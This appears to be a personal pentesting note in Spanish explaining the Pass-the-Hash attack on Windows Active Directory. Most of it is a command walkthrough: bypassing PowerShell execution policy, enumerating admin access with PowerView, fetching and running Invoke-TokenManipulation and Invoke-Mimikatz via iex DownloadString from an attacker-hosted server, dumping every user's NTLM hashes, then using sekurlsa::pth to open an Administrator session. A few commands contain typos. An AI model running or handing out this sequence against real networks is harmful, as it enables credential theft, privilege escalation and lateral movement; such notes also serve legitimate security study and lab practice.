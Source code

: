 # Pass The Hash 

Tags: #AD #Window #PassTheHash 

PtH es una técnica donde robas una credencial principalmente en los sistemas Windows. Un atacante puede obtener los hashes de las password de un usuario y usarlo para autenticarse como ese usuario, bypaseando la necesidad de la actual password en texto plano. Este ataque principalmente comienza cuando el atacante gana acceso no autorizado a un sistema comprometido donde los hashes de las password estan almacenadas. Una vez adquiridas, el atacante puede explotar la vulnerabilidad en el protocolo de autenticacion de Windows, como un NTLM o Kerberos, para pasar las credenciales hasheadas a otros sistemas dentro del dominio de AD.  Para 'bypassing' se necesita crackear la password, el atacante puede moverse lateralmente dentro de la red, escalar privilegios y potencialmente hacer actividades maliciosas.  

Los atacantes obtienen fácilmente las credenciales hasheadas para loas ataques de AD haciendo 'Pass-The-hash' por medio del dumpeo de memoria o robando hashes de contraseñas desde sistemas comprometidos.  

```bash 
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain 
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin

❯ Enter-PSSession seclogs.domian.local       # Nos autenticamos a la sesion local via remota al 'DOMINIO' 
	❯ whoami /all                           
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.webClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1') # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
		❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1') 
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin' 
```

```bash 
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'

# Despliega una nueva venta en Powershell
❯ Enter-PSSession prod.research.domian.local # Ingresamos al 'DOMINIO' via remota como el usuario Admin
```